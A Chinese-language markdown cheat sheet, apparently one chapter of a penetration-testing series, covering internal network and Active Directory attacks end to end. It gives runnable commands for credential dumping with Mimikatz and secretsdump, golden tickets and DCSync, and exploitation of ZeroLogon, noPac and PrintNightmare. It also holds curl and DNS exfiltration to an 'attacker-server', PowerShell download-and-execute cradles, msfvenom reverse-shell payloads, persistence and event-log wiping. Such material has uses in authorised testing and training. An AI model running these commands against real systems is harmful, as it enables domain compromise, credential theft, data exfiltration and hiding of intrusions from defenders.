



# 内网渗透与域渗透全技巧

> 从内网 foothold 到域控沦陷，完整的内网渗透技术栈

---

## 一、内网环境基础

### 1.1 网络拓扑识别



### 1.2 内网分段

| 区域 | 描述 | 常见资产 |
|:----|:-----|:---------|
| 边界区 | 对外暴露服务 | VPN/WAF/反向代理/CDN |
| DMZ区 | 隔离的对外服务 | Web服务器/邮件服务器/DNS |
| 办公区 | 员工办公网络 | 工作站/打印机/VoIP |
| 核心区 | 关键业务服务器 | AD/文件服务器/数据库 |
| 管理区 | 运维管理网络 | 堡垒机/监控/跳板机 |
| 研发区 | 研发网络 | GitLab/Jenkins/代码仓库 |
| 隔离区 | 高安全环境 | 支付系统/核心数据 |

### 1.3 内网渗透流程

```
信息收集 → 存活探测 → 端口服务扫描 → 漏洞发现
    ↓
初始突破 → 权限维持 → 权限提升 → 凭据获取
    ↓
内网横向 → 跳板建立 → 数据收集 → 目标达成
```

---

## 二、内网信息收集

### 2.1 存活主机探测

```bash
# ICMP Ping 扫描
nmap -sn 192.168.1.0/24
fping -ag 192.168.1.0/24

# ARP 扫描 (同一二层)
arp-scan --local
netdiscover -r 192.168.1.0/24

# TCP Ping (防火墙过滤ICMP)
nmap -PS80,443,3389,445 192.168.1.0/24
nmap -PA80,443 192.168.1.0/24

# 无ping扫描
nmap -Pn 192.168.1.0/24
masscan 192.168.1.0/24 -p80,443,445,3389,22 --rate=10000

# 使用CrackMapExec
cme smb 192.168.1.0/24
cme winrm 192.168.1.0/24
```

### 2.2 端口扫描

```bash
# 快速扫描常见端口
nmap -T4 -F 192.168.1.1

# 全端口扫描
nmap -p- -T4 192.168.1.1

# 服务版本探测
nmap -sV -p 80,443,445,3389,22,3306,1433 192.168.1.0/24

# 操作系统检测
nmap -O 192.168.1.1

# 漏洞脚本扫描
nmap --script=vuln 192.168.1.1

# SMB相关脚本
nmap --script=smb-enum-shares,smb-enum-users,smb-os-discovery,smb-vuln* 192.168.1.1

# 全量扫描
nmap -sC -sV -O -p- -T4 192.168.1.1 -oA scan_results
```

### 2.3 服务枚举

#### SMB枚举
```bash
# SMB版本和共享
smbclient -L //192.168.1.1 -N
smbmap -H 192.168.1.1
smbmap -H 192.168.1.1 -u admin -p pass -d DOMAIN

# enum4linux
enum4linux -a 192.168.1.1

# CrackMapExec SMB
cme smb 192.168.1.1 -u '' -p '' --shares
cme smb 192.168.1.1 -u user -p pass --sam
cme smb 192.168.1.1 -u user -p pass --lsa
cme smb 192.168.1.1 -u user -p pass --sessions
cme smb 192.168.1.1 -u user -p pass --disks
cme smb 192.168.1.1 -u user -p pass --users

# SMB漏洞检查
nmap --script smb-vuln* -p445 192.168.1.1
```

#### LDAP枚举
```bash
# 匿名LDAP查询
ldapsearch -x -H ldap://192.168.1.1 -b "dc=domain,dc=local"
ldapsearch -x -H ldap://192.168.1.1 -b "dc=domain,dc=local" "(objectclass=user)"

# 认证LDAP查询
ldapsearch -x -H ldap://192.168.1.1 -D "CN=user,CN=Users,DC=domain,DC=local" -w pass -b "dc=domain,dc=local"

# 使用ldapdomaindump
ldapdomaindump ldap://192.168.1.1 -u 'DOMAIN\user' -p 'pass'
```

#### RDP枚举
```bash
# RDP扫描
nmap -p3389 --script rdp-ntlm-info 192.168.1.1
nmap -p3389 --script rdp-enum-encryption 192.168.1.1

# RDP漏洞
nmap --script rdp-vuln-ms12-020 -p3389 192.168.1.1
```

### 2.4 DNS枚举

```bash
# DNS区域传输
dig axfr @192.168.1.1 domain.local
dnsrecon -d domain.local -t axfr -n 192.168.1.1

# DNS枚举
dnsrecon -d domain.local -n 192.168.1.1 -D subdomains.txt -t brt
dnsenum domain.local

# 子域名爆破
gobuster dns -d domain.local -w subdomains.txt -t 50
ffuf -w subdomains.txt -u http://domain.local -H "Host: FUZZ.domain.local"
```

### 2.5 VPN/AD发现

```bash
# 发现域控
nltest /dsgetdc:DOMAIN
nmap -p389,636,3268,3269 192.168.1.0/24

# 查找DNS SRV记录
nslookup -type=SRV _ldap._tcp.dc._msdcs.domain.local
nslookup -type=SRV _kerberos._tcp.domain.local
nslookup -type=SRV _gc._tcp.domain.local
```

### 2.6 内网Web发现

```bash
# HTTP/HTTPS服务发现
nmap -p80,443,8080,8443,9090 192.168.1.0/24 -oG - | grep open

# Web指纹识别
whatweb http://192.168.1.1
wappalyzer_cli http://192.168.1.1

# 目录扫描
gobuster dir -u http://192.168.1.1 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50
ffuf -u http://192.168.1.1/FUZZ -w /usr/share/wordlists/dirb/common.txt
```

---

## 三、内网代理与隧道

### 3.1 端口转发

```bash
# SSH隧道
# 本地转发: 本地端口 → 远程主机
ssh -L 1080:internal-server:80 user@jumphost

# 远程转发: 远程端口 → 本地主机
ssh -R 8080:localhost:80 user@public-server

# 动态转发: SOCKS代理
ssh -D 1080 user@jumphost

# 多层转发
ssh -L 1080:internal-server:80 -J user@public-server user@internal-jumphost
```

### 3.2 SOCKS代理

```bash
# Chisel (双向隧道)
# 服务端 (攻击机)
chisel server -p 8080 --reverse

# 客户端 (目标机)
chisel client attack-ip:8080 R:socks

# frp
# 服务端 (frps.ini)
[common]
bind_port = 7000

# 客户端 (frpc.ini)
[common]
server_addr = attack-ip
server_port = 7000

[socks5]
type = tcp
remote_port = 1080
plugin = socks5

# EarthWorm
# 正向
ew -s ssocksd -l 1080
# 反向
ew -s rssocks -d attack-ip -e 8888
```

### 3.3 HTTP隧道

```bash
# reGeorg
python reGeorgSocksProxy.py -p 1080 -u http://target/tunnel.php

# Neo-reGeorg
python neoreg.py -k password -u http://target/upload/tunnel.php

# 配合Proxifier/Proxychains
proxychains4 nmap -sT -Pn 192.168.2.1
proxychains4 rdesktop 192.168.2.10
```

### 3.4 DNS隧道

```bash
# dnscat2
# 服务端
ruby dnscat2.rb --dns "domain=test.com" --secret=abcdef

# 客户端
dnscat2-v0.07-client.exe --dns domain=test.com --secret=abcdef

# Iodine
# 服务端
iodined -f -c -P secret 10.0.0.1 test.com

# 客户端
iodine -f -P secret ns1.test.com
```

### 3.5 ICMP隧道

```bash
# PingTunnel
# 服务端
ptunnel -x password

# 客户端
ptunnel -p server-ip -lp 1080 -da target -dp 3389 -x password

# Hans
# 服务端
hans -s 10.0.0.1 -f -m 1400 -p password

# 客户端
hans -c server-ip -f -m 1400 -p password
```

### 3.6 代理链配置

```bash
# proxychains4.conf
[ProxyList]
# 多级代理
socks4 127.0.0.1 1080
socks5 127.0.0.1 1081
http 127.0.0.1 8080

# 配合nmap
proxychains4 nmap -sT -Pn -p 22,80,445 192.168.2.0/24

# 配合Metasploit
setg Proxies socks4:127.0.0.1:1080
```

---

## 四、内网横向移动

### 4.1 哈希传递 (PtH)

```bash
# Impacket工具
impacket-psexec -hashes LMHASH:NTHASH DOMAIN/User@Target
impacket-wmiexec -hashes LMHASH:NTHASH DOMAIN/User@Target
impacket-smbexec -hashes LMHASH:NTHASH DOMAIN/User@Target
impacket-dcomexec -hashes LMHASH:NTHASH DOMAIN/User@Target
impacket-atexec -hashes LMHASH:NTHASH DOMAIN/User@Target

# Mimikatz
sekurlsa::pth /user:Administrator /domain:DOMAIN /ntlm:HASH /run:powershell.exe

# CrackMapExec
cme smb 192.168.1.0/24 -u Administrator -H HASH --local-auth
cme smb 192.168.1.0/24 -u Administrator -H HASH -x whoami
cme winrm 192.168.1.0/24 -u Administrator -H HASH
```

### 4.2 票据传递 (PtT)

```mimikatz
# 提取票据
sekurlsa::tickets /export

# 注入票据
kerberos::ptt ticket.kirbi

# 验证
klist
dir \\DC\C$
```

### 4.3 Over Pass-The-Hash

```bash
# 从hash生成Kerberos票据
impacket-ticketer -nthash HASH -domain DOMAIN.LOCAL -user Administrator -sid SID
export KRB5CCNAME=ticket.ccache
impacket-psexec -k -no-pass DOMAIN/Administrator@Target

# Rubeus
Rubeus.exe asktgt /user:Administrator /rc4:HASH /ptt
```

### 4.4 WMI横向

```powershell
# WMI执行命令
wmic /node:Target /user:DOMAIN\User /password:Pass process call create "cmd /c whoami > C:\temp\out.txt"

# PowerShell WMI
$cred = New-Object System.Management.Automation.PSCredential("DOMAIN\User", (ConvertTo-SecureString "Password" -AsPlainText -Force))
Invoke-WmiMethod -ComputerName Target -Credential $cred -Class Win32_Process -Name Create -ArgumentList "powershell.exe -Enc ..."

# Invoke-WMIExec (Impacket)
impacket-wmiexec DOMAIN/User:Pass@Target
impacket-wmiexec -hashes :HASH DOMAIN/User@Target
```

### 4.5 WinRM横向

```powershell
# 检查可用性
Test-WSMan -ComputerName Target

# 创建会话
$cred = New-Object System.Management.Automation.PSCredential("DOMAIN\User", (ConvertTo-SecureString "Password" -AsPlainText -Force))
$session = New-PSSession -ComputerName Target -Credential $cred

# 执行命令
Invoke-Command -Session $session -ScriptBlock { whoami; hostname }

# 复制文件
Copy-Item -Path C:\payload.exe -Destination C:\temp\ -ToSession $session

# Evil-WinRM
evil-winrm -i Target -u User -p Password
evil-winrm -i Target -u User -H HASH
```

### 4.6 SMB横向

```bash
# CrackMapExec (批量检测)
cme smb 192.168.1.0/24 -u users.txt -p passwords.txt --continue-on-success
cme smb 192.168.1.0/24 -u Administrator -H HASH -M mimikatz
cme smb 192.168.1.0/24 -u Administrator -H HASH -M invoke_sessiongopher

# SmbExec
impacket-smbexec DOMAIN/User:Pass@Target
```

### 4.7 PsExec

```bash
# Sysinternals PsExec
PsExec.exe \\Target -u DOMAIN\User -p Pass cmd.exe

# Impacket PsExec
impacket-psexec DOMAIN/User:Pass@Target
impacket-psexec -hashes :HASH DOMAIN/User@Target

# Metasploit
use exploit/windows/smb/psexec
set RHOSTS Target
set SMBUser Administrator
set SMBPass Pass
set SMBDomain DOMAIN
```

### 4.8 DCOM横向

```powershell
# MMC20.Application
$com = [activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application", "Target"))
$com.Document.ActiveView.ExecuteShellCommand("cmd.exe", $null, "/c calc.exe", "7")

# ShellWindows
$com = [activator]::CreateInstance([type]::GetTypeFromCLSID("9BA05972-F6A8-11CF-A442-00A0C90A8F39", "Target"))

# ExcelDDE
$com = New-Object -ComObject Excel.Application -ComputerName Target
$com.DDEInitiate("cmd", "/c calc.exe")
```

### 4.9 计划任务横向

```cmd
# 远程创建计划任务
schtasks /create /s Target /u DOMAIN\User /p Pass /tn "TaskName" /tr "powershell.exe -Enc ..." /sc once /st 00:00 /ru SYSTEM
schtasks /run /s Target /u DOMAIN\User /p Pass /tn "TaskName"
schtasks /delete /s Target /u DOMAIN\User /p Pass /tn "TaskName" /f
```

### 4.10 SSH横向

```bash
# SSH密钥横向
ssh user@Target
ssh -i id_rsa user@Target

# SSH隧道穿透
ssh -L 3307:database:3306 user@jumphost
ssh -D 1080 user@jumphost -f -N
```

---

## 五、域渗透基础

### 5.1 AD基础结构



### 5.2 域用户枚举

```powershell
# 内置命令
net user /domain
net user username /domain

# PowerView
Get-NetUser
Get-NetUser -Username admin
Get-NetUser -SPN
Get-NetUser -Properties samaccountname,cn,description,memberof
Get-NetUser -LDAPFilter "(adminCount=1)"

# AD模块
Get-ADUser -Filter * -Properties *
Get-ADUser -Identity administrator -Properties *

# 用户属性
Get-NetUser | select samaccountname,userprincipalname,memberof,serviceprincipalname
```

### 5.3 域组枚举

```powershell
# 内置命令
net group /domain
net group "Domain Admins" /domain

# PowerView
Get-NetGroup
Get-NetGroup -GroupName "Domain Admins"
Get-NetGroupMember -GroupName "Domain Admins"
Get-NetGroup -Username username

# 寻找高权限成员
Get-NetGroupMember -GroupName "Enterprise Admins"
Get-NetGroupMember -GroupName "Domain Admins"
Get-NetGroupMember -GroupName "Schema Admins"
```

### 5.4 域计算机枚举

```powershell
# PowerView
Get-NetComputer
Get-NetComputer -OperatingSystem "*Server*"
Get-NetComputer -Ping
Get-NetComputer -FullData

# AD模块
Get-ADComputer -Filter * -Properties *
Get-ADComputer -Filter {OperatingSystem -Like "*Server*"}
```

### 5.5 域信任关系

```powershell
# PowerView
Get-NetDomainTrust
Get-NetForestTrust
Get-NetForestDomain

# 内置命令
nltest /domain_trusts
nltest /trusted_domains

# AD模块
Get-ADTrust -Filter *
```

### 5.6 GPO枚举

```powershell
# PowerView
Get-NetGPO
Get-NetGPO -ComputerName target
Get-NetGPOGroup
Get-NetGPOLocalGroup

# 查找应用到特定OU的GPO
Get-NetGPO -OU "OU=Domain Controllers,DC=domain,DC=local"
```

### 5.7 ACL枚举

```powershell
# PowerView
Get-ObjectAcl -Identity "Domain Admins"
Get-ObjectAcl -Identity "Administrator"
Find-InterestingDomainAcl -ResolveGuids

# 查找高风险ACL
Get-DomainObjectAcl -SearchBase "CN=AdminSDHolder,CN=System,DC=domain,DC=local" -ResolveGUIDs
```

### 5.8 BloodHound数据收集

```powershell
# PowerShell收集器
Import-Module SharpHound.ps1
Invoke-BloodHound -CollectionMethod All
Invoke-BloodHound -CollectionMethod DCOnly
Invoke-BloodHound -CollectionMethod Session,LoggedOn

# SharpHound
SharpHound.exe -c All
SharpHound.exe -c All,GPOLocalGroup --domain domain.local
SharpHound.exe -c DCOnly --domain domain.local
SharpHound.exe -c DCOM,RDP,PSRemote,WinRM

# Python收集器
bloodhound-python -u user -p pass -d domain.local -c All -ns 192.168.1.1
```

---

## 六、Kerberos攻击

### 6.1 Kerberoasting

```bash
# PowerView
Get-NetUser -SPN | select samaccountname,serviceprincipalname
Request-SPNTicket -SPN "MSSQLSvc/sql.domain.local:1433"

# Impacket GetUserSPNs
python3 GetUserSPNs.py domain.local/user:password -request
python3 GetUserSPNs.py domain.local/user:password -dc-ip 192.168.1.1 -request -outputfile hashes.txt

# Rubeus
Rubeus.exe kerberoast /nowrap
Rubeus.exe kerberoast /domain:domain.local /spn:"MSSQLSvc/sql.domain.local" /nowrap

# 破解
hashcat -m 13100 hashes.txt /usr/share/wordlists/rockyou.txt
john --format=krb5tgs hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

### 6.2 AS-REP Roasting

```bash
# 查找不需要预认证的用户
Get-NetUser -UACFilter DONT_REQUIRE_PREAUTH | select samaccountname

# Impacket GetNPUsers
python3 GetNPUsers.py domain.local/ -usersfile users.txt -format hashcat
python3 GetNPUsers.py domain.local/user:password -request -format hashcat

# Rubeus
Rubeus.exe asreproast /nowrap
Rubeus.exe asreproast /domain:domain.local /format:hashcat

# 破解
hashcat -m 18200 hashes.txt /usr/share/wordlists/rockyou.txt
```

### 6.3 黄金票据

```mimikatz
# 获取krbtgt hash (需要域管)
lsadump::dcsync /domain:domain.local /user:krbtgt
lsadump::lsa /inject /name:krbtgt

# 创建黄金票据
kerberos::golden /user:Administrator /domain:domain.local /sid:S-1-5-21-... /krbtgt:HASH /id:500 /groups:512 /ptt

# 使用不同选项
kerberos::golden /user:Administrator /domain:domain.local /sid:S-1-5-21-... /aes256:AES256_HASH /startoffset:-10 /endin:3650 /renewmax:3650 /ptt
kerberos::golden /user:Administrator /domain:domain.local /sid:S-1-5-21-... /rc4:NTLM_HASH /id:500 /groups:512 /ptt

# 验证
klist
dir \\DC01\C$
```

### 6.4 白银票据

```mimikatz
# 获取服务NTLM hash
sekurlsa::logonpasswords

# 创建白银票据 (CIFS服务 → 文件访问)
kerberos::golden /user:Administrator /domain:domain.local /sid:S-1-5-21-... /target:DC01.domain.local /service:CIFS /rc4:SERVICE_HASH /id:500 /ptt

# 其他常用服务
# HOST - 计划任务
# HTTP - IIS/Web
# MSSQLSvc - SQL Server
# RPCSS - 远程过程调用
# WSMan - WinRM
# LDAP - LDAP查询
# Time - 时间同步
```

### 6.5 委派攻击

```powershell
# 无约束委派
Get-NetComputer -Unconstrained
Get-DomainComputer -Unconstrained

# 约束委派
Get-DomainUser -TrustedToAuth | select samaccountname,msds-allowedtodelegateto
Get-DomainComputer -TrustedToAuth

# Rubeus监视
Rubeus.exe monitor /interval:5 /filteruser:DC01$

# S4U2Self+S4U2Proxy (约束委派提权)
Rubeus.exe s4u /user:serviceaccount$ /rc4:HASH /impersonateuser:Administrator /msdsspn:"CIFS/DC01.domain.local" /ptt

# RBCD (资源委派)
Set-DomainRBCD -Identity TARGET$ -DelegateFrom 'FAKECOMPUTER$'
```

### 6.6 DCSync

```mimikatz
# 域管权限下DCSync
lsadump::dcsync /domain:domain.local /user:krbtgt
lsadump::dcsync /domain:domain.local /user:Administrator
lsadump::dcsync /domain:domain.local /all

# Impacket secretsdump
impacket-secretsdump -just-dc domain.local/Administrator:Password@DC01
impacket-secretsdump -just-dc-user krbtgt domain.local/Administrator:Password@DC01
impacket-secretsdump -hashes :HASH domain.local/Administrator@DC01
```

---

## 七、域提权

### 7.1 MS14-068

```bash
# 漏洞检查
# 检查域控补丁 (KB3011780)
# 任意域用户可提权至域管

# 生成票据
python3 ms14-068.py -u user@domain.local -p password -s USER_SID -d DC01.domain.local

# 注入票据
mimikatz.exe "kerberos::ptc TGT_user@domain.local.ccache" exit

# 验证
dir \\DC01\C$
```

### 7.2 ZeroLogon (CVE-2020-1472)

```bash
# 检测
python3 zerologon_tester.py DC01 192.168.1.1

# 利用 (置空DC密码)
python3 cve-2020-1472-exploit.py DC01 192.168.1.1

# 使用空密码DCSync
impacket-secretsdump -no-pass -just-dc DOMAIN/DC01\$@192.168.1.1

# 恢复密码 (必须)
python3 restorepassword.py DC01@192.168.1.1 -target-ip 192.168.1.1 -hexpass OLD_PASSWORD_HASH
```

### 7.3 noPac (CVE-2021-42278 + CVE-2021-42287)

```bash
# SAM账户名欺骗 + KDC绕过
git clone https://github.com/Ridter/noPac

# 检测
python3 noPac.py domain.local/user:password -dc-ip 192.168.1.1 -scan

# 利用
python3 noPac.py domain.local/user:password -dc-ip 192.168.1.1 -dc-host DC01 -shell --impersonate Administrator

# 获取hash
python3 noPac.py domain.local/user:password -dc-ip 192.168.1.1 -dc-host DC01 -dump -just-dc-user Administrator
```

### 7.4 PrintNightmare (CVE-2021-34527)

```bash
# 检测
cme smb 192.168.1.0/24 -u user -p pass -M printnightmare

# 利用 (添加用户)
python3 CVE-2021-1675.py domain.local/user:password@192.168.1.1 '\\192.168.1.100\smb\malicious.dll'

# 提权
python3 CVE-2021-1675.py domain.local/user:password@192.168.1.1 '\\192.168.1.100\smb\adduser.dll'
```

### 7.5 AD CS攻击

```bash
# ESC1 - 模板配置错误 (SAN指定)
certipy find -u user@domain.local -p password -dc-ip 192.168.1.1
certipy req -u user@domain.local -p password -ca CA-SERVER -template VulnTemplate -upn administrator@domain.local

# ESC2 - 任意用途证书模板
certipy req -u user@domain.local -p password -ca CA-SERVER -template VulnTemplate -dns dc01.domain.local

# ESC3 - 注册代理模板
certipy req -u user@domain.local -p password -ca CA-SERVER -template User

# ESC8 - NTLM中继至CA
certipy relay -ca ca-server.domain.local -template DomainController
```

---

## 八、域控沦陷后操作

### 8.1 全量凭证提取

```bash
# DCSync所有用户
impacket-secretsdump -just-dc DOMAIN/Administrator:Password@DC01

# NTDS.dit提取 (本地)
impacket-secretsdump -ntds ntds.dit -system system.hive LOCAL

# 使用卷影拷贝
vssadmin create shadow /for=C:
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\NTDS.dit C:\temp\
reg save HKLM\SYSTEM C:\temp\SYSTEM
```

### 8.2 SYSVOL密码提取

```bash
# Group Policy Preferences密码
# Groups.xml, Services.xml, ScheduledTasks.xml中
# cpassword (AES256加密，密钥已公开)

# 解密工具
python3 gpp-decrypt.py cpassword

# CrackMapExec自动提取
cme smb 192.168.1.1 -u user -p pass -M gpp_password
```

### 8.3 组策略操作

```powershell
# 修改GPO添加计划任务/启动脚本
New-GPLink -Name "MaliciousGPO" -Target "OU=Workstations,DC=domain,DC=local"
Set-GPPrefRegistryValue -Name "MaliciousGPO" -Context Computer -Action Create -Key "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" -ValueName "Malware" -Value "powershell.exe -Enc ..." -Type String
```

### 8.4 SID History注入

```mimikatz
# 向域用户添加Enterprise Admin SID
sid::modify /sam:attacker /new:S-1-5-21-...-519
```

### 8.5 DCShadow

```mimikatz
# 伪装为域控修改AD对象
lsadump::dcshadow /object:CN=Administrator,CN=Users,DC=domain,DC=local /attribute:memberOf /value:CN=Domain Admins,CN=Users,DC=domain,DC=local
lsadump::dcshadow /push
```

### 8.6 金票/钻石票

```mimikatz
# 钻石票据 (Diamond Ticket)
# 解密合法TGT→修改→重新加密
kerberos::golden /domain:domain.local /sid:S-1-5-21-... /user:Administrator /krbtgt:HASH /ticket:valid_tgt.kirbi
```

---

## 九、内网数据收集与外传

### 9.1 敏感文件搜索

```powershell
# 搜索文档类型
Get-ChildItem -Path C:\ -Include *.doc*,*.xls*,*.pdf,*.txt -Recurse -ErrorAction SilentlyContinue

# 搜索密码相关文件
Get-ChildItem -Path C:\ -Recurse -Include *pass*,*cred*,*secret*,*config* -ErrorAction SilentlyContinue | ? {!$_.PSIsContainer}

# 搜索Web.config
Get-ChildItem -Path C:\ -Recurse -Include web.config,appsettings.json,*.env -ErrorAction SilentlyContinue

# 搜索远程桌面连接
Get-ChildItem C:\Users\ -Recurse -Include *.rdp -ErrorAction SilentlyContinue
```

### 9.2 浏览器数据

```powershell
# Chrome数据
ls C:\Users\*\AppData\Local\Google\Chrome\User Data\Default\Login Data
ls C:\Users\*\AppData\Local\Google\Chrome\User Data\Default\Cookies

# Firefox数据
ls C:\Users\*\AppData\Roaming\Mozilla\Firefox\Profiles\*.default\logins.json

# 使用工具
SharpChrome.exe logins /target:C:\Users\*\AppData\Local\Google\Chrome\User Data\Default\Login Data
```

### 9.3 数据库凭证

```powershell
# SQL Server连接字符串
Get-ChildItem C:\ -Recurse -Include web.config,app.config,connectionstrings.config -ErrorAction SilentlyContinue

# Navicat
reg query HKCU\Software\PremiumSoft\Navicat\Servers

# SSMS
Get-ChildItem C:\Users\*\AppData\Roaming\Microsoft\SQL Server Management Studio -Recurse -Include *.xml
```

### 9.4 数据外传

```bash
# HTTP外传
curl -X POST -F "file=@data.zip" http://attacker-server/upload

# DNS外传
for i in $(base64 -w0 data.zip | fold -w32); do nslookup $i.exfil.domain.com; done

# SMB外传
copy data.zip \\192.168.1.100\share\

# 使用工具
python3 exfil.py -f data.zip -s server.com -p 443
```

---

## 十、防御绕过

### 10.1 AV/EDR绕过

```powershell
# PowerShell内存加载
IEX (New-Object Net.WebClient).DownloadString('http://server/payload.ps1')

# .NET反射加载
$bytes = (New-Object Net.WebClient).DownloadData('http://server/payload.exe')
$assembly = [System.Reflection.Assembly]::Load($bytes)

# 回调执行
[Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer(
    [Runtime.InteropServices.Marshal]::GetFunctionPointerForDelegate($delegate),
    [type]
).Invoke()

# Syscall调用
# 绕过钩子直接系统调用
```

### 10.2 日志清理

```powershell
# 清除PowerShell历史
Clear-History
Remove-Item (Get-PSReadlineOption).HistorySavePath

# 清除事件日志
wevtutil cl security
wevtutil cl system
wevtutil cl application
wevtutil cl "Windows PowerShell"

# 清除远程管理日志
Remove-EventLog -LogName "Microsoft-Windows-WinRM/Operational"
Remove-EventLog -LogName "Microsoft-Windows-PowerShell/Operational"

# 选择性清除特定事件ID
wevtutil epl security filtered.evtx "*/System/EventID=4624"
```

### 10.3 防御规避技术

| 技术 | 描述 | 绕过目标 |
|:----|:-----|:---------|
| 进程注入 | 注入合法进程 | 进程检测 |
| 内存执行 | 不写磁盘 | 文件扫描 |
| PowerShell无文件 | 远程下载执行 | 静态检测 |
| .NET加载 | 反射加载程序集 | 传统签名 |
| DLL sideloading | 利用可信进程加载 | 白名单 |
| 回调技术 | 使用Windows API回调 | 钩子检测 |
| 直接系统调用 | 绕过用户态钩子 | EDR钩子 |
| ETW阻止 | 关闭事件跟踪 | 日志检测 |
| AMSI绕过 | 关闭脚本保护 | PowerShell检测 |
| 父进程伪造 | 修改父进程SPID | 行为检测 |

---

## 十一、跳板与权限维持

### 11.1 内网跳板



### 11.2 C2通信

```bash
# 直连
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=server LPORT=4444 -f exe -o payload.exe

# HTTPS
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=server LPORT=443 -f exe -o payload.exe

# DNS
msfvenom -p windows/x64/meterpreter/reverse_dns LHOST=dns.domain.com -f exe -o payload.exe

# 自定义C2框架 (Sliver/Havoc/Covenant)
```

### 11.3 权限维持

```powershell
# 计划任务
schtasks /create /tn "SystemUpdate" /tr "powershell.exe -Enc ..." /sc onstart /ru SYSTEM /rl HIGHEST

# 服务
sc create "WindowsUpdateService" binpath="cmd /c powershell.exe -Enc ..." start=auto

# 注册表Run键
reg add HKLM\Software\Microsoft\Windows\CurrentVersion\Run /v SecurityScan /t REG_SZ /d "powershell.exe -Enc ..."

# WMI事件
$filter = Set-WmiInstance -Namespace root\subscription -Class __EventFilter -Arguments @{Name="Startup"; QueryLanguage="WQL"; Query="SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System' AND TargetInstance.SystemUpTime >= 240 AND TargetInstance.SystemUpTime < 300"}
$consumer = Set-WmiInstance -Namespace root\subscription -Class CommandLineEventConsumer -Arguments @{Name="Consumer"; CommandLineTemplate="powershell.exe -Enc ..."}
Set-WmiInstance -Namespace root\subscription -Class __FilterToConsumerBinding -Arguments @{Filter=$filter; Consumer=$consumer}
```

---

## 十二、速查总表

### 12.1 常用工具

| 工具 | 用途 | 命令示例 |
|:----|:-----|:---------|
| CrackMapExec | 自动化横向 | `cme smb 192.168.1.0/24 -u user -p pass` |
| Impacket | AD协议工具 | `impacket-secretsdump -just-dc ...` |
| BloodHound | AD分析 | `SharpHound.exe -c All` |
| Mimikatz | 凭证提取 | `sekurlsa::logonpasswords` |
| Rubeus | Kerberos | `Rubeus.exe kerberoast` |
| Certipy | ADCS攻击 | `certipy find ...` |
| Chisel | 隧道 | `chisel server -p 8080 --reverse` |
| Ligolo | 代理 | `ligolo -selfcert` |
| Neo-reGeorg | HTTP隧道 | `neoreg.py -k password -u url` |
| Evil-WinRM | WinRM Shell | `evil-winrm -i target -u user -p pass` |

### 12.2 快速命令速查

```bash
# 内网存活
nmap -sn 192.168.1.0/24
for /l %i in (1,1,254) do ping -n 1 192.168.1.%i | find "TTL"

# SMB枚举
cme smb 192.168.1.0/24 -u '' -p '' --shares
smbmap -H 192.168.1.1 -u guest -p ''

# 域信息
net group "Domain Admins" /domain
nltest /dsgetdc:DOMAIN

# Kerberoast
Rubeus.exe kerberoast /nowrap
python3 GetUserSPNs.py DOMAIN/user:password -request

# DCSync
impacket-secretsdump -just-dc DOMAIN/admin:password@DC
mimikatz "lsadump::dcsync /domain:DOMAIN /user:krbtgt"

# 哈希传递
impacket-wmiexec -hashes :HASH DOMAIN/user@TARGET
cme smb TARGET -u Administrator -H HASH -x whoami

# 票据传递
mimikatz "kerberos::ptt ticket.kirbi"
Rubeus.exe ptt /ticket:ticket.kirbi

# 代理
ssh -D 1080 user@jumphost
chisel client attack:8080 R:socks
```

### 12.3 推荐资源

| 资源 | 链接 |
|:-----|:-----|
| HackTricks Windows | hacktricks.xyz/windows-hardening |
| AD Security Blog | adsecurity.org |
| SpecterOps Blog | posts.specterops.io |
| Active Directory Lab Setup | github.com/dafthack/BOF |
| GOAD (Game of Active Directory) | github.com/Orange-Cyberdefense/GOAD |

---

> **参考资源**
>
> - MITRE ATT&CK Enterprise Matrix
> - OSEP Course Materials
> - HackTricks Internal Network
> - SANS SEC660
> - Offensive Security PEN-300


[Windows安全渗透测试全技巧](04-windows-pentest.md)
